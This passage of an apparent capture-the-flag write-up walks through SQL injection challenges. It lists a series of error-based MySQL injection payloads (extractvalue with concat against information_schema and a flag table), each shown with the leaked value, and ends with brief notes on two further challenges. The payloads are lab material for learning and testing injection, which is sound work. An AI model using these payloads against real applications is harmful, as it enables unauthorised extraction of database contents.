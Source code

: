 ```javascript
```
Result => flag6
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select column_name from information_schema.columns where table_name = 'flag_table' limit 6,1))) and '1'='1
```
Result => flag7
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select column_name from information_schema.columns where table_name = 'flag_table' limit 7,1))) and '1'='1
```
Result => flag8
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select flag1 from flag_table limit 0,1))) and '1'='1
```
Result => segfault{1
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select flag2 from flag_table limit 0,1))) and '1'='1
```
Result => you_
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select flag3 from flag_table limit 0,1))) and '1'='1
```
Result => must_
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select flag4 from flag_table limit 0,1))) and '1'='1
```
Result => concat_
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select flag5 from flag_table limit 0,1))) and '1'='1
```
Result => this_
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select flag6 from flag_table limit 0,1))) and '1'='1
```
Result => string_
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select flag7 from flag_table limit 0,1))) and '1'='1
```
Result => good
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select flag8 from flag_table limit 0,1))) and '1'='1
```
Result => job}

* CTF - SQL Injection 5
1. database()    => sqli_2_2
2. table_name    => flagTable_this
3. columns_name    => flag
4. data      => 13

* CTF - SQL Injection 6
1. database()    => sqli_3
2. table_name      => flag_table
3. columns_name      => flag
